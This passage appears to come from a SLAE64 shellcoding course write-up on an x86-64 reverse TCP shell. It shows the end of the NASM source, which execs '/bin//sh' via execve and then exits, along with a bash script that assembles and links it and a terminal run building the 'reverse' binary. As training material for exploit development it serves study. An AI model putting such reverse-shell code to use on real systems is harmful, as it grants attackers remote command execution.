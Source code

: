 ```nasm

	mov rdi, rsp			; rdi points at "/bin//sh" at the top of the stack

	push rax			; NULL

	mov rdx, rsp			; rdx points at the top of the stack

	push rdi
	
	mov rsi, rsp

	add rax, 0x3b			; 3b is the hex value of the decimal 59 for execve

	syscall				; exec execve syscall

exit:
	xor rax, rax	
	add rax, 0x3c	; 3c is the hex value of the decimal 60 for exit

	xor rdi, rdi
	dec rdi		; status

	syscall		; exec exit syscall
```

## Testing the Reverse Shell

In order to test the Reverse Shell, we need to compile it. Compilation process consists of 2 separate processes:

- Assembling: can happen with the `nasm` assembler, which assembles the input file (`.nasm`) and directs output to the output file (`.o`) if specified. It basically "translates" the `Assembly` code.
- Linking: can happen with the GNU linker `ld`, which combines a number of object and archive files, relocates their data and ties up symbol references. It basically provides information such as where the entry point of a program is. By default the entry point is `_start` but this can be changed.

The following `bash` script automates that process:

```bash
#!/bin/bash

echo '[+] Assembling with Nasm ... '
nasm -felf64 -o $1.o $1.nasm

echo '[+] Linking ... '
ld -o $1 $1.o

echo '[+] Done!'
```

The following command does the compilation and creates the executable `reverse`:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/2_Shell_reverse_tcp$ ./compile.sh reverse
[+] Assembling with Nasm ... 
[+] Linking ... 
[+] Done!
```
